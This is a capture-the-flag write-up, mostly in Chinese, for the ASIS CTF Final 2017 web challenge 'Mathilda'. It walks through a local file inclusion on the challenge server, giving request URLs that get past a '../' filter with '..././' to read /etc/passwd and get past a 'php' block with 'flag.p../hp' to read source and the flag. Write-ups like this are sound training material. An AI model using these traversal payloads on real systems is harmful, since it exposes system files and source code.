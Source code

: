 # ASIS CTF FINAL 2017 : Mathilda

**category** : web
**points** : 57

> Mathilda learned many skills from Leon, now she want to use [them](http://178.62.48.181/)!

## write-up

用 wappalyzer 看出他是用 apache 2.4.25

```html
<!-- created by ~rooney -->
```

index page 有這一行所以猜他有 rooney 的 user 開 public_html 出來 ( http://178.62.48.181/~rooney/ )

發現他可以 local file inclusion ( http://178.62.48.181/~rooney/?path=rooney )

http://178.62.48.181/~rooney/?path=../../../../../../etc/passwd 沒成功

http://178.62.48.181/~rooney/?path=../rooney 得到跟 http://178.62.48.181/~rooney/?path=rooney 結果一樣，猜測他是用字串取代把 `../` 取代成空的

http://178.62.48.181/~rooney/?path=..././..././..././..././etc/passwd 成功

看到 th1sizveryl0ngus3rn4me 這個 user

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.php

會擋 php，沒關係，用 `../` 繞過

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/index.p../hp

看到他 `require 'flag.php'`

http://178.62.48.181/~rooney/?path=..././..././..././..././home/th1sizveryl0ngus3rn4me/public_html/flag.p../hp

噴 flag

小插曲 :

瀏覽 http://178.62.48.181/~rooney/?path=..././..././..././..././etc/apache2/vhost/host.conf

```
...
    ServerAdmin webmaster@localhost
    DocumentRoot /flag/html/
    ServerName flagishere
...
```

在 `/etc/hosts` 加上 178.62.48.181 flagishere，去瀏覽 http://flagishere，然後就噴 forbidden

以為有什麼神奇的東西，原來是被耍啦

## other write-ups and resources

* http://countersite.org/articles/web-vulnerability/161-mathilda-web-writeup-asis-2017.html
* https://rawsec.ml/en/ASIS-2017-Final-write-ups/#mathilda-web
* https://github.com/ymgve/ctf-writeups/tree/master/asis2017finals/web-mathilda

